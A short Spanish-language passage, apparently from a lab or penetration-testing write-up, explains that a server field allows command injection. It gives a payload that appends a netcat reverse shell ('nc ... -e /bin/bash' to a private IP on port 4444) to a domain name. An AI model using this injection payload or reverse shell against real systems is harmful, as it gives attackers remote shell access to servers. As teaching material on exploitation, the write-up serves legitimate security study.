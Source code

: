 ![](images/imagen36.png)

Esto nos muestra el usuario que está ejecutando el servidor pero podría ejecutar cualquier comando.

Podríamos abrir un terminal remoto a través de un tunel. 
```
www.nsa.gov&&& nc -vn 172.18.0.1 4444 -e /bin/bash
```

![](images/imagen36.png)

